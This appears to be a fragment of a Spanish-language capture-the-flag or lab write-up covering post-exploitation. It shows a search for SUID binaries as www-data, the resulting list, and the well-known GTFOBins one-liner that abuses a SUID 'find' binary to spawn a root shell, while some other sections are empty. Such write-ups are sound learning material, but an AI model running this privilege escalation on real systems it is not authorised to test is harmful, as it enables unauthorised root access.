### Explotación 2

### Explotación 3

## Explotación posterior

<aside>
💡

</aside>

### Escalada de privilegios 1

Una vez dentro, con usuario www-data buscamos binarios con SUID

```bash
find / -u=s -type f 2>/dev/null
/bin/su
/bin/ping6
/bin/ping
/bin/fusermount
/bin/umount
/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/find
/usr/bin/sudo
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/at
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/passwd
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-
```

Encontramos el binario “find”

Buscamos GTFObins

```bash
./find . -exec /bin/sh -p \; -quit
```

Ejecutamos en la maquina y obtenemos root

### 

### Escalada de privilegios 2
